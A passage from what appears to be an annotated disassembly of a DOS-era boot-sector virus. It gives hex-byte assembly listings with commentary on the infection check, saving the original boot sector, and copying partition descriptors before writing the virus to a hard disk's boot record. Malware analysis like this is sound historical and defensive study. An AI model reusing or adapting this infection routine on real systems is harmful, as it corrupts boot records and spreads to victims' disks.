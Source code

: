 ```
013B: 0E                PUSH    CS                      ; Set DS ...
013C: 1F                POP     DS                      ; ... to CS
013D: BE 00 02          MOV     SI,$0200                ; Current boot sector data
0140: BF 00 00          MOV     DI,$0000                ; Virus data
0143: AD                LODSW                           ; Get first word of boot sector
0144: 3B 05             CMP     AX,[DI]                 ; Same as virus?
0146: 75 11             JNZ     $0159                   ; No ... infect it
0148: AD                LODSW                           ; Yes ... try second word
0149: 3B 45 02          CMP     AX,[DI+$02]             ; Boot sector looks like virus?
014C: 75 0B             JNZ     $0159                   ; No ... infect it
```

Once the message is printed (or skipped), the virus continues at 012A. Here the virus attempts to load the bootsector from a fixed-disk. If an error occurs, 
the virus continues with the normal boot up process. This time the error checking is needed since the error is likely -- it could mean that there is no fixed-disk 
in the computer. Ah, those were the days!

If the first four bytes of the loaded bootsector match the virus, the disk is already infected and the original bootsector is executed with the following section of 
code. Otherwise, the hard-disk infection continues at 0159.

```
; No matter how virus loaded, it infects only floppy disks that get a copy of the
; memory-resident copy of the virus. We want floppies to have media type = 0.
014E: 2E C6 06 08 00 00 MOV     BYTE PTR [CS:$0008],$00 ; Media type = floppy.
0154: 2E FF 2E 11 00    JMP     [CS:$0011]              ; Continue with normal boot sector
```

This is how the virus finishes its loading by executing the original bootsector, which was loaded from disk earlier. Once again an indirect jump is used where a 
direct, intrasegment jump is better. The direct jump occupies the same space (five bytes) and executes a little faster. Replacing the five bytes at 0154 with a 
direct jump eliminates the need for the four bytes of storage at 0011. That brings our savings up to 16 bytes.

The very last thing the virus does before turning control over to the original bootsector is change the media-type flag to 0 (floppy) no matter how the virus 
booted. Once it is loaded into memory, the virus only infects floppies. To infect a floppy, the virus copies the entire memory-resident virus to the bootsector 
of the disk -- the media-type flag is set to zero for once and for all.

```
; Infect hard-drive
0159: 2E C6 06 08 00 02 MOV     BYTE PTR [CS:$0008],$02 ; Store virus on C: with flag set
015F: B8 01 03          MOV     AX,$0301                ; Write 1 sector
0162: BB 00 02          MOV     BX,$0200                ; Original boot sector
0165: B9 07 00          MOV     CX,$0007                ; Cyl = 0, Sec = 7
0168: BA 80 00          MOV     DX,$0080                ; Head = 0, Drive = 80
016B: CD 13             INT     $13                     ; Store original boot in FAT
016D: 72 DF             JB      $014E                   ; Error ... out of here
;
; Floppies are assumed to have 512 byte sectors (0200 hex) which is just barely
; room for the virus. Fixed disks are assumed to have twice that - 1K sectors (0400).
; The last 512 bytes of a fixed-disk boot record contain four partition descriptors.
; These descriptors describe the partitions and must be present in the infected
; sector - this code copies the descriptors into the virus sector buffer before writing
; it to disk.
016F: 0E                PUSH    CS                      ; Set DS ...
0170: 1F                POP     DS                      ; ... to CS
0171: 0E                PUSH    CS                      ; Set ES ...
0172: 07                POP     ES                      ; ... to CS
0173: BE BE 03          MOV     SI,$03BE                ; Copy partition ...
0176: BF BE 01          MOV     DI,$01BE                ; ... descriptors ...
0179: B9 42 02          MOV     CX,$0242                ; ... into ...
017C: F3 A4             REPZ    MOVSB                   ; ... virus sector buffer.
```